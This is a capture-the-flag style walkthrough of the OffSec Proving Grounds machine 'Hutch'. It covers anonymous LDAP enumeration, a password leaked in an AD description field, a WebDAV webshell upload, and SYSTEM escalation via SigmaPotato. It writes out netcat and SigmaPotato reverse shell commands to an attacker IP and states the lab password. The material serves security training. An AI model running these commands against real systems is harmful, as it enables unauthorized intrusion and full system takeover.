# Hutch

**Category:** Active Directory, WebDAV

## Attack Chain

1. Nmap identifies a domain controller (`hutchdc.hutch.offsec`) with LDAP, SMB, and HTTP open
2. An unauthenticated SMB session leaks the domain's NetBIOS/FQDN details
3. An anonymous LDAP bind against the domain naming context enumerates every user object
4. One user's `description` field leaks a plaintext password set at the user's own request
5. WebDAV (port 80) accepts those credentials via `cadaver`, confirming write access to the IIS web root
6. An ASPX command-execution webshell (`cmdasp.aspx`) is uploaded and confirms code execution as `iis apppool\defaultapppool`
7. `nc.exe` is served over HTTP and triggered through the webshell for an interactive reverse shell
8. `SeImpersonatePrivilege` is enabled; SigmaPotato abuses it to obtain a SYSTEM token and spawn a SYSTEM-level reverse shell

## TL;DR

An unauthenticated LDAP bind against the domain controller was enough to enumerate every user object, and one of them, Freddy McSorley, had a plaintext password sitting directly in the AD `description` field ("Password set to ... at user's request. Please change on next login"). That credential worked immediately over WebDAV, confirming write access to the IIS web root. From there, uploading a small ASPX command-execution shell got code execution as the IIS app pool identity, and serving `nc.exe` over a quick Python HTTP server upgraded that into a proper interactive reverse shell. `SeImpersonatePrivilege` was enabled on the app pool account, and SigmaPotato turned that straight into a SYSTEM-level reverse shell.

## Full Walkthrough

### Enumeration

Nmap identifies a domain controller with the expected AD service set: DNS, HTTP, Kerberos, RPC, SMB, LDAP, and WinRM.



An unauthenticated SMB session leaks basic domain information:



```
NetBIOS computer name: HUTCHDC
NetBIOS domain name: HUTCH
DNS domain: hutch.offsec
FQDN: hutchdc.hutch.offsec
```

Running an LDAP-focused Nmap script scan against the domain's naming context:



The scan lists domain objects, but truncates output. Repeating the query with `ldapsearch` for the full picture:



### LDAP Credential Leak

Browsing the full `ldapsearch` output, one user entry stands out:



```
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
```

A plaintext password, left in the account's description field.

### WebDAV Access

Testing the leaked credential against the IIS site with `cadaver`, a WebDAV client:



```
Username: fmcsorley
```

Authentication succeeds, and a test file uploads and lists successfully, confirming write access to the web root. Verifying it's actually being served:



### Getting a Shell

Uploading a standard ASPX command-execution webshell (`cmdasp.aspx`) the same way:



Triggering it in the browser:



```
iis apppool\defaultapppool
```

For a proper interactive shell, serving `nc.exe` over a local Python HTTP server:



Passing a command through the webshell to fetch `nc.exe` and connect back:



```
nc.exe 192.168.45.180 443 -e cmd
```

With a listener running, the shell connects:



```
whoami
iis apppool\defaultapppool
```

### Privilege Escalation

Checking privileges:



`SeImpersonatePrivilege` is enabled, a direct path to SYSTEM via a Potato-family exploit. Running SigmaPotato with its built-in reverse shell option:



```
./sigmapotato.exe --revshell 192.168.45.180 443
```

SigmaPotato impersonates the SYSTEM token via the named pipe, duplicates it, and spawns a PowerShell reverse shell running as `nt authority\system`.

---

*Educational write-up from an authorized lab environment (OffSec Proving Grounds). Not a guide for unauthorized access.*
